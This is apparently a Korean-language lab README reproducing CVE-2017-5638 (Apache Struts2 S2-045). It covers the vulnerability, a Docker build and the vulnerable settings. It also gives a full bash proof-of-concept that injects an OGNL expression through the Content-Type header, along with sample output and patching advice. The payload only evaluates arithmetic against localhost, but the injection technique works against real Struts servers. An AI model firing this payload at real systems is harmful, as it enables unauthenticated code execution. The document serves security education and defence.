


# CVE-2017-5638: Apache Struts2 S2-045 원격 코드 실행
## 1. 취약점 요약

CVE-2017-5638(S2-045)은 Apache Struts2의 **Jakarta Multipart Parser**가 파일 업로드 요청을 처리하는 과정에서 발생하는 원격 코드 실행 취약점이다.

취약한 Struts2는 비정상적인 `Content-Type` 값으로 발생한 예외 메시지를 처리하는 과정에서 헤더에 포함된 OGNL(Object-Graph Navigation Language) 표현식을 평가할 수 있다. 공격자는 조작된 HTTP 요청 헤더를 이용해 인증 없이 서버에서 임의 코드를 실행할 수 있다.

| 항목           | 내용                                           |
| -------------- | ---------------------------------------------- |
| CVE            | CVE-2017-5638                                  |
| 보안 공지      | S2-045                                         |
| 취약 유형      | 원격 코드 실행(RCE)                            |
| 취약 구성 요소 | Jakarta Multipart Parser                       |
| 영향 버전      | Struts 2.3.5 ~ 2.3.31, Struts 2.5 ~ 2.5.10     |
| 실습 버전      | Apache Struts 2.3.30                           |
| CWE            | CWE-755                                        |
| CVSS v3.1      | 9.8 Critical                                   |
| Vector         | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |

이 실습에서는 운영체제 명령을 실행하지 않는다. 산술식 `233 * 233`이 서버에서 평가되어 결과 `54289`가 응답 헤더로 반환되는지만 확인한다.

## 2. 환경 구성

완성된 외부 취약 애플리케이션 이미지를 사용하지 않고, 저장소에 포함된 소스와 설정으로 Struts2 애플리케이션을 직접 빌드한다.

```text
Docker Compose
    └── Maven + Java 8에서 WAR 빌드
        └── Tomcat 8.5에 ROOT.war 배포
            └── http://127.0.0.1:8080
```

| 구성 요소          | 버전 또는 설정        |
| ------------------ | --------------------- |
| Apache Struts2     | 2.3.30                |
| Commons FileUpload | 1.3.2                 |
| Java               | 8                     |
| Apache Tomcat      | 8.5.100               |
| Multipart Parser   | Jakarta               |
| PoC 대상           | `POST /upload.action` |

프로젝트 디렉터리에서 다음 명령을 실행한다.

```bash
docker compose up --build -d
docker compose ps
```

컨테이너가 `Up` 상태이고 다음 포트 매핑이 표시되면 정상이다.

```text
127.0.0.1:8080->8080/tcp
```

```text
http://127.0.0.1:8080
```



## 3. 취약 조건

다음 조건을 만족할 때 취약점이 발생할 수 있다.

1. 취약한 Apache Struts2 버전을 사용한다.
2. 파일 업로드 처리에 Jakarta Multipart Parser를 사용한다.
3. 외부 사용자가 Struts2 엔드포인트로 HTTP 요청을 보낼 수 있다.
4. 공격자가 `Content-Type` 헤더를 조작할 수 있다.

이 환경은 `pom.xml`에서 Struts2 `2.3.30`을 사용하고, `struts.xml`에서 Jakarta Multipart Parser를 지정한다.

```xml
<struts2.version>2.3.30</struts2.version>
```

```xml
<constant name="struts.multipart.parser" value="jakarta"/>
```

정상적인 파일 업로드 요청은 다음과 같은 `Content-Type`을 사용한다.

```http
Content-Type: multipart/form-data
```

취약점 재현 요청은 `Content-Type`에 OGNL 표현식을 포함한다. 서버가 이 값을 단순한 문자열이 아니라 표현식으로 평가하면 응답 헤더에 계산 결과가 추가된다.

## 4. 재현 절차

환경 실행 후 PoC 스크립트를 실행한다.

```bash
chmod +x poc/poc.sh
./poc/poc.sh
```

실행 권한을 부여하지 않고 Bash로 직접 실행할 수도 있다.

```bash
bash poc/poc.sh
```

재현 흐름은 다음과 같다.

```text
Struts2 웹 애플리케이션 연결 확인
        ↓
조작된 Content-Type 헤더를 /upload.action으로 전송
        ↓
Jakarta Multipart Parser 처리 중 예외 발생
        ↓
예외 메시지 처리 과정에서 OGNL 표현식 평가
        ↓
응답 헤더에 233 * 233의 결과인 54289 추가
        ↓
PoC가 응답값을 확인하고 SUCCESS 출력
```

## 5. PoC 코드

자동 재현 스크립트는 [`poc/poc.sh`](./poc/poc.sh)에 포함되어 있다.

```bash
#!/usr/bin/env bash
set -euo pipefail

TARGET="${TARGET:-http://127.0.0.1:8080/upload.action}"
EXPECTED="54289"
HEADER_NAME="X-CVE-2017-5638"

# Non-destructive PoC: evaluates 233*233 and returns the result in a response header.

PAYLOAD="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('${HEADER_NAME}',233*233)}.multipart/form-data"

echo "[1/3] Waiting for the local lab: ${TARGET}"
for _ in $(seq 1 60); do
    if curl --silent --output /dev/null --max-time 2 "${TARGET%/upload.action}/"; then
        break
    fi
    sleep 2
done

if ! curl --silent --output /dev/null --max-time 3 "${TARGET%/upload.action}/"; then
    echo "[-] The application is not reachable." >&2
    echo "    Check: docker compose ps" >&2
    echo "    Logs : docker compose logs --no-color struts2" >&2
    exit 1
fi

echo "[2/3] Sending the crafted Content-Type header"
RESPONSE_HEADERS="$(
    curl --silent --show-error --dump-header - --output /dev/null \
        --request POST \
        --header "Content-Type: ${PAYLOAD}" \
        --data '' \
        "${TARGET}"
)"

printf '%s\n' "${RESPONSE_HEADERS}"

ACTUAL="$(printf '%s\n' "${RESPONSE_HEADERS}" \
    | tr -d '\r' \
    | awk -F': *' -v name="${HEADER_NAME}" 'tolower($1)==tolower(name){print $2}' \
    | tail -n 1)"

echo "[3/3] Checking the PoC result"
if [[ "${ACTUAL}" == "${EXPECTED}" ]]; then
    echo "[+] SUCCESS: ${HEADER_NAME}: ${ACTUAL}"
    echo "[+] The crafted OGNL expression was evaluated by the server."
else
    echo "[-] FAILED: expected ${HEADER_NAME}: ${EXPECTED}, got '${ACTUAL:-<missing>}'" >&2
    exit 1
fi
```

핵심 Payload는 다음과 같다.

```bash
PAYLOAD="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('${HEADER_NAME}',233*233)}.multipart/form-data"
```

Payload의 동작은 다음과 같다.

- `233 * 233` 산술식을 서버에서 평가한다.
- 계산 결과를 `X-CVE-2017-5638` 응답 헤더에 추가한다.
- PoC 스크립트가 응답 헤더의 값이 `54289`인지 확인한다.
- 운영체제 명령이나 파일 조작은 수행하지 않는다.

## 6. 실행 결과

취약점이 재현되면 다음과 같이 출력된다.

```text
[1/3] Waiting for the local lab: http://127.0.0.1:8080/upload.action
[2/3] Sending the crafted Content-Type header
HTTP/1.1 200
X-CVE-2017-5638: 54289
Content-Type: text/html;charset=UTF-8

[3/3] Checking the PoC result
[+] SUCCESS: X-CVE-2017-5638: 54289
[+] The crafted OGNL expression was evaluated by the server.
```

`X-CVE-2017-5638: 54289`는 서버가 반환한 실제 HTTP 응답 헤더다. 이는 요청 헤더에 포함된 OGNL 산술식이 서버에서 평가되었다는 것을 의미한다.

`SUCCESS` 문구는 `poc.sh`가 응답값을 예상값과 비교한 뒤 출력한 결과다.



## 7. 대응 방안

가장 확실한 대응은 취약한 Struts2 버전을 제거하는 것이다.

| 사용 계열    | 최소 패치 버전 |
| ------------ | -------------- |
| Struts 2.3.x | 2.3.32 이상    |
| Struts 2.5.x | 2.5.10.1 이상  |

운영 환경에서는 현재 지원되는 최신 Struts 버전으로 마이그레이션하는 것이 좋다.

추가 완화 방안은 다음과 같다.

- Jakarta Multipart Parser를 다른 구현으로 변경한다.
- 비정상적인 `Content-Type` 헤더를 차단한다.
- 사용하지 않는 파일 업로드 기능과 엔드포인트를 제거하거나 접근을 제한한다.
- WAF는 임시 완화책으로만 사용하고 최종적으로 취약 버전을 업데이트한다.
- 웹 애플리케이션과 컨테이너를 최소 권한 계정으로 실행한다.
